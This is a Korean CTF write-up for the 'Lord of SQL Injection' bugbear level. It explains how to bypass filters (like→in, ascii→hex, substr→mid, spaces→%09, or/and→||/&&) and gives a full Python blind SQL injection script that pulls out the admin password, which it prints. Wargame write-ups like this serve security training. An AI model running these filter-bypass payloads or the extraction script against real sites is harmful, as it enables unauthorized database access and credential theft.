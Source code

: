 ```yaml
---
title: LOS - 13번 bugbear
category: [Wargame, Lord of SQL Injection]
---
```


# [13] bugbear

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbLtSV8%2Fbtrnpm1hg3C%2F5J4zNxs1CJ1BkZonWk6lS1%2Fimg.png">

## 풀이

preg_match에 뭐가 좀 많다.

하나하나 살펴본다.

<br>

필터링 사항이다.

① 싱글쿼터

② substr

③ ascii

④ =

⑤ or/and

⑥ 공백

⑦ like

⑧ 0x

<br> 

지금까지의 필터링 사항을 몽땅 다 집어넣었다.

<br>

추가로 like에 대한 필터링까지 적용되었는데, 이에 대한 우회 방법은 다음과 같다.

① like ⇒ in

- ex. id like "admin" ⇒ id in ("admin")

<br> 

그리고 또 한가지 특이사항이 있다.

저번 문제에서는 ascii를 ord로 우회했었다.

그러나 이번 문제에서는 or을 필터링하고 있기 때문에 ord도 해당 필터에 걸려버린다.

(이 부분을 간과해서 시간을 잡아먹었다...)

<br> 

따라서 이번 문제에서는 ascii를 **hex**로 우회해준다.

hex 함수는 이름 그대로, 문자를 ascii가 아닌 hex로 나타내주는 함수이다.

hex의 반환 타입은 string이기에 단순 숫자로 취급하여 대소 비교를 해줄 수는 없다.

때문에 in을 사용하여 문자열 일치 확인을 해줄 것이다.

이 때, 비교 대상으로 사용할 ascii값도 hex로 변환하여 비교해준다.

- ex. hex(mid(...)) in (hex(1))

<br>

한편, 준비된 쿼리문은 12번 문제와 동일하기 때문에,

쿼리문 변조 방향에 대한 상세한 설명은 이전 포스팅으로 대체한다.

 
<br>
 

이상의 내용을 반영하여 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.

```python
def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0||id%09in%09(\"admin\")%26%26length(pw)>{num}%09%23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```
① or/and ⇒ \|\|, %26%26

② 공백 ⇒ %09

③ like ⇒ in

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

```python
def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0||id%09in%09(\"admin\")%26%26hex(mid(pw,{len},1))%09in%09(hex({ran}))%09%23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```

① or/and ⇒ \|\|, %26%26

② 공백 ⇒ %09

③ like ⇒ in

④ substr ⇒ mid

⑤ ascii ⇒ hex

 
<br>
 

**수정된 Python 자동화 코드의 전문**이다.

```python
import requests

def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0||id%09in%09(\"admin\")%26%26length(pw)>{num}%09%23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0||id%09in%09(\"admin\")%26%26hex(mid(pw,{len},1))%09in%09(hex({ran}))%09%23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    
    length=check_length(url, cookie)
    print(f"👏 pw의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, length)
    print(f"👏 pw의 정체는 {ans}입니다!")
    
    exit
```

<img width src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbnT6Iq%2FbtrnrkVXp3E%2FB0kaNZJZYO5fBkBBsnzkh0%2Fimg.png">

Blind 공격 결과, admin의 pw는 `52dc3991` 이다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdC3vzR%2FbtrnktUFiVR%2FEKEDpBeOAVsMfdTukaBKY0%2Fimg.png">